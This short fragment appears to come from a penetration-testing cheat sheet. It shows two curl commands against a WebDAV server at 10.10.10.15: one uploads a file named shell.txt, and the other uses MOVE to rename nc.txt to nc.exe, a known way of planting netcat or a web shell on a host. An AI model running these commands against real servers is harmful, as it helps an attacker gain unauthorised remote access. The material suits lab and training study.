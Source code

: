 Move a file with curl:
```
curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt
```

Upload a file with curl:
```
curl http://10.10.10.15/ --upload-file shell.txt
```
